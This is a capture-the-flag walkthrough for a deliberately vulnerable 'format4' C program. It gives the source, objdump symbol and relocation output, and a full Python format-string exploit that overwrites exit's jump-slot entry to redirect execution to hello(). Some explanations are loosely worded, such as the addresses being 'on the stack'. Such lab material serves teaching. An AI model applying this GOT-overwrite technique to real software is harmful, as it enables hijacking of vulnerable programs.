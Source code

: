 # format4

## Enumeration
The code:<br>
```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void hello()
{
  printf("code execution redirected! you win\n");
  _exit(1);
}

void vuln()
{
  char buffer[512];

  fgets(buffer, sizeof(buffer), stdin);

  printf(buffer);

  exit(1);  
}

int main(int argc, char **argv)
{
  vuln();
}
```
The goal of this challenge is to overwrite the procedure linkage table (PLT) with a specific value to alter code execution. As seen from the code we want to redirect code execution to <b>hello</b> by overwriting <b>exit(1)</b> PLT entry. First determine where hello and exit exists on the stack.
```bash
maximillian@maximillian-VirtualBox: objdump -TR format4

DYNAMIC SYMBOL TABLE:
00000000  w   D  *UND*  00000000              __gmon_start__
00000000      DF *UND*  00000000  GLIBC_2.0   fgets
00000000      DF *UND*  00000000  GLIBC_2.0   __libc_start_main
00000000      DF *UND*  00000000  GLIBC_2.0   _exit
00000000      DF *UND*  00000000  GLIBC_2.0   printf
00000000      DF *UND*  00000000  GLIBC_2.0   puts
00000000      DF *UND*  00000000  GLIBC_2.0   exit
080485ec g    DO .rodata        00000004  Base        _IO_stdin_used
08049730 g    DO .bss   00000004  GLIBC_2.0   stdin

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE 
080496fc R_386_GLOB_DAT    __gmon_start__
08049730 R_386_COPY        stdin@@GLIBC_2.0
0804970c R_386_JUMP_SLOT   __gmon_start__
08049710 R_386_JUMP_SLOT   fgets@GLIBC_2.0
08049714 R_386_JUMP_SLOT   __libc_start_main@GLIBC_2.0
08049718 R_386_JUMP_SLOT   _exit@GLIBC_2.0
0804971c R_386_JUMP_SLOT   printf@GLIBC_2.0
08049720 R_386_JUMP_SLOT   puts@GLIBC_2.0
08049724 R_386_JUMP_SLOT   exit@GLIBC_2.0


maximillian@maximillian-VirtualBox: objdump -t format4 | grep .text

08048400 l    d  .text  00000000              .text
08048430 l     F .text  00000000              __do_global_dtors_aux
08048490 l     F .text  00000000              frame_dummy
080485a0 l     F .text  00000000              __do_global_ctors_aux
08048530 g     F .text  00000005              __libc_csu_fini
08048400 g     F .text  00000000              _start
08048540 g     F .text  0000005a              __libc_csu_init
080484b4 g     F .text  0000001e              hello
080484d2 g     F .text  00000042              vuln
0804859a g     F .text  00000000              .hidden __i686.get_pc_thunk.bx
08048514 g     F .text  0000000f              main
```
hello is located at 0x080484b4. So we want to rewrite 0x08049724 (which is a pointer to the code executed by exit) to 0x080484b4. The full exploit script is below. One thing to note is th <b>exploit += %4$n</b> which means "At location 4, write n bytes". This method is called Direct Parameter Access and (as the name implies) allows for accessing parameters on the stack directly. This method can be used to shorten the exploit script.

```Python
#!/usr/bin/env python

import struct
exit_location_0 = struct.pack("I",0x08049724)
exit_location_1 = struct.pack("I",0x08049726)

hello_location = struct.pack("I",0x080484b4)

exploit = ""
exploit += exit_location_0
exploit += exit_location_1
exploit += "%33964x"
exploit += "%4$n"
exploit += "%33616x"
exploit += "%5$n"

print exploit
```